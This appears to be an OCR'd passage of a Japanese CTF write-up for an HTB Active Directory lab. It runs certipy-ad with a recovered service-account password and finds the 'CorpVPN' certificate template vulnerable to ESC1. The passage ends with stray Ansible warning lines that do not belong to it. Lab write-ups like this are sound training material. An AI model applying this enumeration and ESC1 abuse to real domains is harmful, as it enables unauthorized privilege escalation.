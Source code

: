 ## 証明書の脆弱性
- certipy-ad find の結果、CA「AUTHORITY-CA」に属するテンプレート「CorpVPN」がESC1に脆弱であり、Domain Computers に Enrollment 権限があるため、svc_ldap でも証明書リクエストができることがわかった
```bash
└─$ certipy-ad find -u 'svc_ldap@authority.htb.corp' -p 'lDaP_1n_th3_cle4r!' -target authority.htb.corp -stdout -vulnerable
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: authority.htb.corp.
[!] Use -debug to print a stacktrace
[*] Finding certificate templates
[*] Found 37 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 13 enabled certificate templates
[*] Finding issuance policies
[*] Found 21 issuance policies
[*] Found 0 OIDs linked to templates
[!] DNS resolution failed: The DNS query name does not exist: authority.authority.htb.
[!] Use -debug to print a stacktrace
[!] Failed to resolve: authority.authority.htb
[*] Retrieving CA configuration for 'AUTHORITY-CA' via RRP
[-] Failed to connect to remote registry: [Errno Connection error (authority.authority.htb:445)] [Errno -2] Name or service not known
[-] Use -debug to print a stacktrace
[!] Failed to get CA configuration for 'AUTHORITY-CA' via RRP: 'NoneType' object has no attribute 'request'
[!] Use -debug to print a stacktrace
[!] Could not retrieve configuration for 'AUTHORITY-CA'
[*] Checking web enrollment for CA 'AUTHORITY-CA' @ 'authority.authority.htb'
[!] DNS resolution failed: The DNS query name does not exist: authority.authority.htb.
[!] Use -debug to print a stacktrace
[!] Failed to resolve: authority.authority.htb
[!] Error checking web enrollment: [Errno -2] Name or service not known
[!] Use -debug to print a stacktrace
[!] DNS resolution failed: The DNS query name does not exist: authority.authority.htb.
[!] Use -debug to print a stacktrace
[!] Failed to resolve: authority.authority.htb
[!] Error checking web enrollment: [Errno -2] Name or service not known
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : AUTHORITY-CA
    DNS Name                            : authority.authority.htb
    Certificate Subject                 : CN=AUTHORITY-CA, DC=authority, DC=htb
    Certificate Serial Number           : 2C4E1F3CA46BBDAF42A1DDE3EC33A6B4
    Certificate Validity Start          : 2023-04-24 01:46:26+00:00
    Certificate Validity End            : 2123-04-24 01:56:25+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Unknown
    Request Disposition                 : Unknown
    Enforce Encryption for Requests     : Unknown
    Active Policy                       : Unknown
    Disabled Extensions                 : Unknown
Certificate Templates
  0
    Template Name                       : CorpVPN
    Display Name                        : Corp VPN
```

[WARNING]: No inventory was parsed, only implicit localhost is available
[WARNING]: No inventory was parsed, only implicit localhost is available
[WARNING]: No inventory was parsed, only implicit localhost is available